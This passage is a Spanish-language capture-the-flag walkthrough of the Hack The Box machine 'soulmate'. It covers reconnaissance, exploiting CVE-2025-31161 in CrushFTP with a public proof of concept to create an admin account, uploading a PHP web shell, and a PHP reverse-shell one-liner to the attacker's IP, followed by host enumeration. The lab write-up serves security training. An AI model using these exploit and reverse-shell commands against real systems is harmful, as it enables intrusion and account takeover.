# Metodologías de ataque

Creamos nuestra carpeta con el nombre de la maquina `soulmate` y dentro crearemos las subcarpetas para cada fase `content, exploits, nmap, scripts`

Revisamos la conexion a la ip

```bash
ping -c 2 10.10.11.86
```
Respuesta:
<pre>
PING 10.10.11.86 (10.10.11.86) 56(84) bytes of data.
64 bytes from 10.10.11.86: icmp_seq=1 ttl=63 time=139 ms
64 bytes from 10.10.11.86: icmp_seq=2 ttl=63 time=141 ms

--- 10.10.11.86 ping statistics ---
2 packets transmitted, 2 received, 0% packet loss, time 1001ms
rtt min/avg/max/mdev = 139.407/139.959/140.511/0.552 ms
</pre>

Teniendo la respuesta ingresamos a la ip que nos entrega HTB, en mi caso es la 10.10.11.86

Nos indica que no pudo resolver soulmate.htb



Ingresamos al archivo hosts e ingresamos la ip y el dominio que nos indica en la pagina

```bash
sudo nano /etc/hosts
```

<pre>
10.10.11.86 soulmate.hth
</pre>

Recargamos la pagina y deberiamos ya poder ver el inicio:


Realizamos un escaneo en nmap y en paralelo haremos escaneos de directorios y subdominios

## Escaneo previo
**Full TCP (nmap):**
```bash
nmap -vvv -sS -p- --min-rate 1000 -n -Pn 10.10.11.86 -oG nmap/allPorts
```

Respuesta:
<pre>
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-09-28 13:38 -03
Initiating SYN Stealth Scan at 13:38
Scanning 10.10.11.86 [65535 ports]
Discovered open port 22/tcp on 10.10.11.86
Discovered open port 80/tcp on 10.10.11.86
Increasing send delay for 10.10.11.86 from 0 to 5 due to 382 out of 1272 dropped probes since last increase.
Increasing send delay for 10.10.11.86 from 5 to 10 due to max_successful_tryno increase to 4
Completed SYN Stealth Scan at 13:38, 15.04s elapsed (65535 total ports)
Nmap scan report for 10.10.11.86
Host is up, received user-set (0.26s latency).
Scanned at 2025-09-28 13:38:09 -03 for 15s
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 63
80/tcp open  http    syn-ack ttl 63
</pre>

Vemos que tenemos 2 puertos, usaremos esos para escanearlos

## Escaneo de servicios
**Servicios + scripts:**
```bash
nmap -v -sC -sV --min-rate 1000 -p 22,80 -n 10.10.11.86 -oG nmap/targeted
```

<pre>
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 3e:ea:45:4b:c5:d1:6d:6f:e2:d4:d1:3b:0a:3d:a9:4f (ECDSA)
|_  256 64:cc:75:de:4a:e6:a5:b4:73:eb:3f:1b:cf:b4:e3:94 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://soulmate.htb/
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
</pre>

## Fuzzing de directorios web
```bash
ffuf -w /usr/share/wordlists/dirbuster/wordlists/directory-list-2.3-medium.txt -u http://soulmate.htb/FUZZ -o content/dirs-soulmate.json -of json -t 25 -fw 6110
```

Respuesta:

<pre>
assets                  [Status: 301, Size: 178, Words: 6, Lines: 8, Duration: 140ms]

</pre>

## Fuzzing de subdominios / vhosts
```bash
ffuf -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-5000.txt -u http://soulmate.htb -H "Host: FUZZ.soulmate.htb" -o content/domains-soulmate.json -of json -t 25
```

Respuesta:

<pre>
ftp                     [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 228ms]
</pre>

## Fuzzing de archivos

```bash
ffuf -w /usr/share/wordlists/seclists/Discovery/Web-Content/common.txt -u http://soulmate.htb/assets/FUZZ -e .php,.html,.bak,.txt -recursion -recursion-depth 2 -mc 200,301,302 -fc 404 -t 25 -ocontent/extensions-soulmate.jsonn -of json 
```

Respuesta:

<pre>
css                     [Status: 301, Size: 178, Words: 6, Lines: 8, Duration: 139ms]
[INFO] Adding a new job to the queue: http://soulmate.htb/assets/css/FUZZ

images                  [Status: 301, Size: 178, Words: 6, Lines: 8, Duration: 140ms]
[INFO] Adding a new job to the queue: http://soulmate.htb/assets/images/FUZZ

[INFO] Starting queued job on target: http://soulmate.htb/assets/css/FUZZ

[INFO] Starting queued job on target: http://soulmate.htb/assets/images/FUZZ

profiles                [Status: 301, Size: 178, Words: 6, Lines: 8, Duration: 138ms]
[INFO] Adding a new job to the queue: http://soulmate.htb/assets/images/profiles/FUZZ

[INFO] Starting queued job on target: http://soulmate.htb/assets/images/profiles/FUZZ

:: Progress: [23615/23615] :: Job [4/4] :: 197 req/sec :: Duration: [0:01:36] :: Errors: 0 ::
</pre>

Ingresamos a cada uno de los directorios para verificar algun heartbleed pero no se obtiene nada favorable.

Intentamos acceder al ftp del sitio: ftp.soulmate.htb



Agregamos el ftp al archivo hosts.

```bash
sudo nano /etc/hosts
```

<pre>
10.10.11.86 soulmate.htb ftp.soulmate.htb
</pre>

recargamos la pagina y ya deberiamos tener acceso al ftp


En caso de no cargar probar con la combinacion de teclas Ctrl+F5 para recargar cache.

Dentro de la pagina hacemos una inspeccion de código y verificamos que la version del CrushFTP es la `v11.W.657`

Realizamos una busqueda en google y validamos la vulnerabilidad: "11.W.657 CRUSHFTP Vuln"

y encontramos el CVE de la vulnerabilidad: CVE-2025-31161

Fuente: https://s2grupo.es/vulnerabilidades-crushftp-2025/

Realizamos otra busqueda en google con la CVE: CVE-2025-31161 y vemos que en github hay una POC en python para usarse



Descargamos la POC y la ejecutamos:

```bash
cd exploits
git clone https://github.com/Immersive-Labs-Sec/CVE-2025-31161.git
python3 cve-2025-31161.py
```
Respuesta:

<pre>
[-] Target host not specified
usage: cve-2025-31161.py [-h] [--target_host TARGET_HOST] [--port PORT] [--target_user TARGET_USER] [--new_user NEW_USER] [--password PASSWORD]

Exploit CVE-2025-31161 to create a new account

options:
  -h, --help            show this help message and exit
  --target_host TARGET_HOST
                        Target host
  --port PORT           Target port
  --target_user TARGET_USER
                        Target user
  --new_user NEW_USER   New user to create
  --password PASSWORD   Password for the new user

</pre>

Nos pide ingresar los datos en este orden (probaremos con el usuario root que es el mas común):

```bash
python3 --target_host ftp.soulmate.htb --port 80 --target_user root --new_user prueba1 --password admin123
```

Respuesta:

<pre>
[+] Preparing Payloads
  [-] Warming up the target
  [-] Target is up and running
[+] Sending Account Create Request
  [!] User created successfully
<strong>[+] Exploit Complete you can now login with
   [*] Username: prueba
   [*] Password: admin123.</strong>
</pre>

Tenemos el usuario creado, ahora validamos el acceso:



Empezamos a navegar en el portal y lo primero que vemos es la opcion de Admin, dentro de esta opcion navegamos por el menu hasta que llegamos a la parte de User Manager. Donde podemos ver los usuarios registrados.

Podemos cambiarle la password a un usuario y tener acceso a él o podemos agregar los permisos al usuario creado con el exploit

Asignando permisos al usuario `prueba1`

Vamos al `User Manager`, seleccionamos el usuario `prueba1`, ingresamos a la carpeta `app`, seleccionamos la carpeta `webProd`, la agregamos con la flecha verde, luego marcamos la casilla de `Upload` y por guardamos los cambios



Luego vamos a `files` y dentro de files, cargaremos el archivo que nos dara la revershell.

Probaremos con el primer usuario a ver si le podemos cambiar la password y presionamos en Save:



Cambiado el usuario, iniciamos sesion con el usuario al que cambiamos la clave, en este caso usamos a Jenna y vemos que el usuario tiene accesos a recursos que nos descargaremos y analizaremos mas adelante:



El usuario `crushadmin`, es el administrador del sitio y el usuario `TempAccount` no tiene password asignada

Por ultimo probaremos con el usuario `ben` ya que en el apartado `User's Stuff` tiene una carpeta llamada webProd y dentro de la carpeta podemos visualizar la ruta `assets/images/profile`

En el incio del usuario `ben` observamos que ingresando en la carpeta `webProd` tenemos los archivos del inicio de la pagina, y tenemos la opcion de cargar un archivo y viendo que la pagina es un `WordPress` trataremos de subir un archivo php con una shell reversa.

Mi shell mas comoda para php uso la [ak47shell.php](https://github.com/backdoorhub/shell-backdoor-list/blob/master/shell/php/ak47shell.php)

La descargo en la carpeta `scripts` y de ahi lo agregp desde el usuario `ben` con el nombre de `prueba.php` y le doy click en upload.



Ahora ingresamos a la pagina principal de `soulmate.htb` y agregamos `/prueba.php`, una vez cargada nuestra shell, presionamos en `Execute the command`

ingresamos el siguiente comando dentro del `Execute system commands!` (sin presionar el boton de perform)

```bash
php -r '$sock=fsockopen("$nuestraIPvpn",4444);exec("/bin/sh -i <&3 >&3 2>&3");'
```

Podemos conseguir diversas reverse shell para diversas practicas desde el repo de [swisskyrepo](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)

abrimos una terminal desde nuestro linux e ingresamos el comando para esperar la conexion

```bash
nc -lnvp 4444
```

presionamos ENTER en la terminal y luego Perform en la shell de php

Y verificamos en la terminal que tenemos acceso al servidor:



Trataremos de tener una shell un poco mas interactiva, primero validamos que tengamos python (Es lo mas comun para el preparamiento de TTY) con el comando `which python3`

y de respondernos con un `/usr/bin/python3` ingresaremos el siguiente comando para tener una shell mejor:

```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
```

Con esto el simbolo `$` deberia cambiar a `www-data@soulmate:~/soulmate.htb/public$ `

Y empezaremos los primeros comandos para saber donde estamos y que usuario somos, para eso podemos ver los comandos que nos puedan servir aqui: [Comandos dentro de un servidor](../)

Datos del servidor:

<pre>
uname -a
Linux soulmate 5.15.0-153-generic #163-Ubuntu SMP Thu Aug 7 16:37:18 UTC 2025 x86_64 x86_64 x86_64 GNU/Linux

cat /etc/os-release
PRETTY_NAME="Ubuntu 22.04.5 LTS"
NAME="Ubuntu"
VERSION_ID="22.04"
VERSION="22.04.5 LTS (Jammy Jellyfish)"
VERSION_CODENAME=jammy
ID=ubuntu
ID_LIKE=debian
HOME_URL="https://www.ubuntu.com/"
SUPPORT_URL="https://help.ubuntu.com/"
BUG_REPORT_URL="https://bugs.launchpad.net/ubuntu/"
PRIVACY_POLICY_URL="https://www.ubuntu.com/legal/terms-and-policies/privacy-policy"
UBUNTU_CODENAME=jammy

date
Tue Sep 30 01:08:10 UTC 2025

pwd
/var/www

whoami
www-data

id
uid=33(www-data) gid=33(www-data) groups=33(www-data)

top
TERM environment variable not set.

htop
Error opening terminal: unknown.

ip a
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host 
       valid_lft forever preferred_lft forever
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc mq state UP group default qlen 1000
    link/ether 00:50:56:b0:7a:c9 brd ff:ff:ff:ff:ff:ff
    altname enp3s0
    altname ens160
    inet 10.10.11.86/23 brd 10.10.11.255 scope global eth0
       valid_lft forever preferred_lft forever
3: docker0: <NO-CARRIER,BROADCAST,MULTICAST,UP> mtu 1500 qdisc noqueue state DOWN group default 
    link/ether 02:42:6f:de:7c:bd brd ff:ff:ff:ff:ff:ff
    inet 172.17.0.1/16 brd 172.17.255.255 scope global docker0
       valid_lft forever preferred_lft forever
4: br-8eca864ff73f: <NO-CARRIER,BROADCAST,MULTICAST,UP> mtu 1500 qdisc noqueue state DOWN group default 
    link/ether 02:42:dc:18:e4:ac brd ff:ff:ff:ff:ff:ff
    inet 172.18.0.1/16 brd 172.18.255.255 scope global br-8eca864ff73f
       valid_lft forever preferred_lft forever
6: br-fd7e9bdebda8: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue state UP group default 
    link/ether 02:42:51:22:6b:52 brd ff:ff:ff:ff:ff:ff
    inet 172.19.0.1/16 brd 172.19.255.255 scope global br-fd7e9bdebda8
       valid_lft forever preferred_lft forever
10: veth719f26c@if9: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue master br-fd7e9bdebda8 state UP group default 
    link/ether e6:f7:84:5b:1c:50 brd ff:ff:ff:ff:ff:ff link-netnsid 0


ss -tuln
Netid State  Recv-Q Send-Q Local Address:Port  Peer Address:PortProcess
udp   UNCONN 0      0      127.0.0.53%lo:53         0.0.0.0:*          
tcp   LISTEN 0      128          0.0.0.0:22         0.0.0.0:*          
tcp   LISTEN 0      511          0.0.0.0:80         0.0.0.0:*          
tcp   LISTEN 0      4096       127.0.0.1:8080       0.0.0.0:*          
tcp   LISTEN 0      4096   127.0.0.53%lo:53         0.0.0.0:*          
tcp   LISTEN 0      4096       127.0.0.1:8443       0.0.0.0:*          
tcp   LISTEN 0      5          127.0.0.1:2222       0.0.0.0:*          
tcp   LISTEN 0      4096       127.0.0.1:39261      0.0.0.0:*          
tcp   LISTEN 0      128        127.0.0.1:41269      0.0.0.0:*          
tcp   LISTEN 0      4096       127.0.0.1:4369       0.0.0.0:*          
tcp   LISTEN 0      4096       127.0.0.1:9090       0.0.0.0:*          
tcp   LISTEN 0      128             [::]:22            [::]:*          
tcp   LISTEN 0      511             [::]:80            [::]:*          
tcp   LISTEN 0      4096           [::1]:4369          [::]:*   

netstat -tuln
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State      
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN     
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN     
tcp        0      0 127.0.0.1:8080          0.0.0.0:*               LISTEN     
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN     
tcp        0      0 127.0.0.1:8443          0.0.0.0:*               LISTEN     
tcp        0      0 127.0.0.1:2222          0.0.0.0:*               LISTEN     
tcp        0      0 127.0.0.1:39261         0.0.0.0:*               LISTEN     
tcp        0      0 127.0.0.1:41269         0.0.0.0:*               LISTEN     
tcp        0      0 127.0.0.1:4369          0.0.0.0:*               LISTEN     
tcp        0      0 127.0.0.1:9090          0.0.0.0:*               LISTEN     
tcp6       0      0 :::22                   :::*                    LISTEN     
tcp6       0      0 :::80                   :::*                    LISTEN     
tcp6       0      0 ::1:4369                :::*                    LISTEN     
udp        0      0 127.0.0.53:53           0.0.0.0:*       

ss -s
Total: 235
TCP:   37 (estab 6, closed 18, orphaned 0, timewait 8)

Transport Total     IP        IPv6
RAW	 0         0         0        
UDP	 3         3         0        
TCP	 19        16        3        
INET	 22        19        3        
FRAG	 0         0         0     

cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-network:x:101:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:102:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:104::/nonexistent:/usr/sbin/nologin
systemd-timesync:x:104:105:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
pollinate:x:105:1::/var/cache/pollinate:/bin/false
sshd:x:106:65534::/run/sshd:/usr/sbin/nologin
syslog:x:107:113::/home/syslog:/usr/sbin/nologin
uuidd:x:108:114::/run/uuidd:/usr/sbin/nologin
tcpdump:x:109:115::/nonexistent:/usr/sbin/nologin
tss:x:110:116:TPM software stack,,,:/var/lib/tpm:/bin/false
landscape:x:111:117::/var/lib/landscape:/usr/sbin/nologin
fwupd-refresh:x:112:118:fwupd-refresh user,,,:/run/systemd:/usr/sbin/nologin
usbmux:x:113:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
lxd:x:999:100::/var/snap/lxd/common/lxd:/bin/false
dnsmasq:x:114:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
epmd:x:115:121::/run/epmd:/usr/sbin/nologin
ben:x:1000:1000:,,,:/home/ben:/bin/bash
_laurel:x:998:998::/var/log/laurel:/bin/false
www-data@soulmate:~$ 

w
 01:15:06 up  9:11,  0 users,  load average: 0.00, 0.02, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT

systemctl list-units --type=service --state=running
  UNIT                        LOAD   ACTIVE SUB     DESCRIPTION
  auditd.service              loaded active running Security Auditing Service
  containerd.service          loaded active running containerd container runtime
  cron.service                loaded active running Regular background program …
  crushftp.service            loaded active running CrushFTP service
  dbus.service                loaded active running D-Bus System Message Bus
  docker.service              loaded active running Docker Application Containe…
  epmd-local.service          loaded active running Erlang Port Mapper Daemon
  <strong>erlang_ssh.service          loaded active running Start Erlang SSH Service</strong>
  fwupd.service               loaded active running Firmware update daemon
  getty@tty1.service          loaded active running Getty on tty1
  irqbalance.service          loaded active running irqbalance daemon
  ModemManager.service        loaded active running Modem Manager
  multipathd.service          loaded active running Device-Mapper Multipath Dev…
  networkd-dispatcher.service loaded active running Dispatcher daemon for syste…
  nginx.service               loaded active running A high performance web serv…
  open-vm-tools.service       loaded active running Service for virtual machine…
  php8.1-fpm.service          loaded active running The PHP 8.1 FastCGI Process…
  polkit.service              loaded active running Authorization Manager
  rsyslog.service             loaded active running System Logging Service
  ssh.service                 loaded active running OpenBSD Secure Shell server
  systemd-journald.service    loaded active running Journal Service
  systemd-logind.service      loaded active running User Login Management
  systemd-resolved.service    loaded active running Network Name Resolution
  systemd-timesyncd.service   loaded active running Network Time Synchronization
  systemd-udevd.service       loaded active running Rule-based Manager for Devi…
  udisks2.service             loaded active running Disk Manager
  upower.service              loaded active running Daemon for power management
  vgauth.service              loaded active running Authentication service for …

LOAD   = Reflects whether the unit definition was properly loaded.
ACTIVE = The high-level unit activation state, i.e. generalization of SUB.
SUB    = The low-level unit activation state, values depend on unit type.
28 loaded units listed.

service --status-all
 [ + ]  apparmor
 [ + ]  apport
 [ + ]  auditd
 [ - ]  console-setup.sh
 [ + ]  cron
 [ - ]  cryptdisks
